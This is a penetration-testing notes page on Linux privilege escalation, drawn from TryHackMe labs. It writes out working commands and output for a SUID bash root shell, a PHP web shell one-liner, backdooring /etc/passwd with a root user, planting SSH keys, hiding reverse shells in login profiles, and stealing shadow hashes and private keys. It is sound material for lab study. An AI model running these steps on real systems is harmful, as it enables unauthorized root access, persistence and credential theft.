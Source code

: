 ```yaml
---
description: >-
  Go from a low-privilege user to a higher one to gain access to things you're
  not supposed to
---
```


# Linux Privilege Escalation

If a system has been set up well, you might not instantly get all the privileges on the machine when you get in. It's pretty common to have a web server run as a low-privilege user, so if it ever gets hacked the attacker might not be able to do much on the server.

The point of Privilege Escalation is to abuse features of the system to execute commands as more privileged users, thus escalating your own privileges on the system.​ Most of the information was from the Linux PrivEsc rooms on TryHackMe:

{% embed url="https://tryhackme.com/room/linprivesc" %}
First PrivEsc room with some basic techniques
{% endembed %}

{% embed url="https://tryhackme.com/room/linuxprivesc" %}
Second Privesc room with more advanced techniques and a lot of detail
{% endembed %}

## Getting Shells

Often in privilege escalation, you're letting a high-privilege user execute some command. Sometimes you can't directly execute a shell as that user and have to run some other command to send a way to get a shell somewhere. One simple way is to just execute a reverse shell as that user. Then you will get a privileged reverse shell in your listener. See [#reverse-shells](../hacking-linux-boxes.md#reverse-shells "mention") for some examples of this.&#x20;

Another easy way if you already have access to the box, is to create a [suid.md](suid.md "mention") binary of bash that the target user is the owner of. The safest way to do this is to first copy /bin/bash to another location, which will make the owner of the file the user that executed the command. Then to later get back those privileges just add the SUID bit with `chmod +s` to take over the privileges of the owner when you execute the program as a low-privilege user.&#x20;

{% code title="Let target execute:" %}
```shell
cp /bin/bash /tmp/bash; chmod +xs /tmp/bash
```
{% endcode %}

<pre class="language-shell-session" data-title="Low-privilege user"><code class="lang-shell-session"><strong>$ /tmp/bash -p  # -p to maintain privileges
</strong># id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
</code></pre>

### Writing files

If you can only write to files, without running commands yet, you can write to some specific locations that will later execute commands. Profile files such as `.bashrc` or `.profile` contain scripts that are executed every time the user logs in, and you may be able to hide a reverse shell command here to trigger whenever the user logs in again.&#x20;

If you are able to write at some place with code that is executed by another user, try overwriting this code with a reverse shell or anything else you want them to do. For example a PHP shell like `<?= system($_GET["cmd"]) ?>` to run commands on a website. This really depends on what technologies exist on the system, but overwriting libraries may also be an option.&#x20;

For an instant trigger, the root user may edit `/etc/passwd` to add another root-level user with your own password. Then you can log in as that user and get root privileges:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ openssl passwd 'hacker'  # Generate password
</strong>aQeFa8LxllpT.
</code></pre>

Then if you somehow append the following line to the `/etc/passwd` file, you will be able to log in as root using the password "hacker":

<pre class="language-shell"><code class="lang-shell">root:x:0:0:root:/root:/bin/bash
...
<strong>hacker:aQeFa8LxllpT.:0:0:root:/root:/bin/bash
</strong></code></pre>

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ su hacker
</strong>Password: hacker
# id
uid=0(root) gid=0(root) groups=0(root)
</code></pre>

If the machine uses SSH, another way would be to append your own public key to the `.ssh/authorized_keys` file in the target's home directory, which permits you access to the user via SSH. Just `cat` out your own `~/.ssh/id_rsa.pub` starting with `ssh-rsa...` and add it to a new line in the `.ssh/authorized_keys` file. Then you are allowed to log in simply using SSH:

```shell-session
$ ssh root@$IP
```

{% hint style="warning" %}
Default installations of SSH don't allow logging in as `root`. To check this look at the `PermitRootLogin` option in `/etc/ssh/sshd_config`:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ grep PermitRootLogin /etc/ssh/sshd_config
</strong>PermitRootLogin yes
</code></pre>
{% endhint %}

### Reading files

Being able to read files as a privileged user can allow you to read sensitive information. If you are reading as the `root` user, you may read the shadow hashes in `/etc/shadow`, which can be cracked locally to find users' passwords (See more info in [#cracking-shadow-hashes](../../cryptography/hashing/cracking-hashes.md#cracking-shadow-hashes "mention")). Then if you have cracked a password you can just log in as that user using `su`:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ su root
</strong>Password: password123
# id
uid=0(root) gid=0(root) groups=0(root)
</code></pre>

Another common file to read is SSH private keys. These are located in the user's home directory in a `.ssh` folder. To find the home directory for a user you can check `/etc/passwd`:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ cat /etc/passwd | awk -F: '{print $1, $6}'
</strong>root /root
...
www-data /var/www
user /home/user
</code></pre>

This folder often contains an `id_rsa` file that is only readable by the user, but contains the private key that can be used SSH into that user. When you are able to read this file, copy it to your attacking machine and use `ssh -i` to use the private key:

<pre class="language-shell-session" data-title="Attacker"><code class="lang-shell-session"><strong>$ cat id_rsa  # Downloaded private key
</strong>-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAtc7FngGLGz9oReOq2b7k2grTgvQGtP+Yax3it73ZGuxASVKq
...
BAmcHcSorWfiOeasmS2HsoAqsBJr8DqDVAo4274CYxZooDqq+6Rimg==
-----END RSA PRIVATE KEY-----
<strong>$ chmod 600 id_rsa  # Set correct permissions to allow SSH to use it
</strong><strong>$ ssh -i id_rsa root@$IP
</strong># id
uid=0(root) gid=0(root) groups=0(root)
</code></pre>

### Deleting files

This is a bit of a special case, but if you have a primitive to delete an arbitrary file, you may be able to remove files that protect a service normally but still work without the file. You may find that an application replaces a **configuration file** with the default if it cannot find it, resetting any extra protections an admin may have put on it.&#x20;

Another trick is when the target user does not want to be spied on, so they symlink their `~/.bash_history` to `/dev/null`. This is a common default configuration in some places as well. When you **delete** this file it will remove the symlink, and bash will simply create the file and write to it when the next command is executed that should be put in the history. You may be able to read sensitive command-line arguments like passwords or other secrets if it is readable by you.&#x20;
